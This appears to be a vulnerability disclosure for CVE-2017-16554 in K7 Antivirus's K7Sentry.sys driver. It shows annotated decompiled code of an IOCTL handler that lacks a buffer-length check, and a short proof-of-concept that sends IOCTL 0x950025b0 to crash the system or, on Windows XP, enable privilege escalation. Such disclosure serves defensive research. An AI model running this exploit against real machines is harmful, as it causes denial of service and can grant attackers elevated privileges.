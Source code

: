 # CVE-2017-16554

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771

# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025b0 does not check the length of the output buffer before using it and writes 5 bytes to the output buffer.

 The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
case 0x950025AC:
    // CVE-2017-16552
    value_0_or_1 = PossiblySomethingLoggy();
    *v2 = 4;
    *pOutputBuffer = (PVOID)value_0_or_1;
    v9 = 0;
    goto LABEL_117;
case 0x950025B0:
    // Note: pOutputBuffer is the same as Irp->AssociatedIrp.SystemBuffer
    // VULN: No check has been performed to ensure that there is enough space to write 5 bytes 
    // to the buffer.
    *pOutputBuffer = (PVOID)13;
    *((_BYTE *)pOutputBuffer + 4) = 0;
    *v2 = 13;
    v9 = 0;
    goto LABEL_117;
case 0x950025B4:
case 0x950025B8:
    PsGetCurrentProcessId();
    // Note: This is how it should be, a a length check before assigning to the buffer.
    if ( stIoControlBuffer.dwOutputBufferLength < 4u )
        goto LABEL_73;
    *pOutputBuffer = 0;
    *v2 = 4;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x950025b0, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value of **0D 00 00 00 00** to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value at **0D 00 00 00 00* to 0x00000000 and will cause a BSOD. This would simply be an availability issues.
